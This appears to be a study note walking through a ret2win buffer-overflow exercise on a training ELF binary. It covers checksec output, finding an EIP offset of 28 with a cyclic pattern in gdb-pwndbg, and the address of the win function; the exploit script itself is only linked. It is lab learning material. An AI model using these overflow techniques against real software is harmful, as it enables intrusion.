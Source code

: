 [[Binary Exploitation/03-04 Ret2Win/03/Source Code|Source Code]]

### Basic File checks

1. File -> `ret2win: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=5978b724ef3c617522fe2a86c281910b02480b0e, for GNU/Linux 3.2.0, not stripped`
2. checksec ->
```python
[*] '/root/binary_exploitation/03/ret2win'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

### Ghidra and gdb-pwndbg

Looking at the source code it seems that there is a buffer of 16 bytes but we need to overflow the EIP pointer

Let's use gdb-pwndbg to find the offset to the EIP pointer

```python
cyclic 100
gdb-pwndbg ./ret2win
```

Result:

```python
*EAX  0x6f
*EBX  0x61616166 ('faaa')
 ECX  0x0
*EDX  0xf7fc2540 ◂— 0xf7fc2540
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049230 (__libc_csu_init) ◂— push ebp
*EBP  0x61616167 ('gaaa')
*ESP  0xffffcf20 ◂— 'iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
*EIP  0x61616168 ('haaa')
```

The Eip pointer has the value `haaa` so to see what byte that is we can use the following command

```python
cyclic -l haaa
```

Result:

```python
Finding cyclic pattern of 4 bytes: b'haaa' (hex: 0x68616161)
Found at offset 28
```

So now that we know the offset we have to find the return address of the hacked function we found in ghidra

the return address is `0x08049182`

Now let's make the automated python script

[[Binary Exploitation/03-04 Ret2Win/03/Python Script|Python Script]] 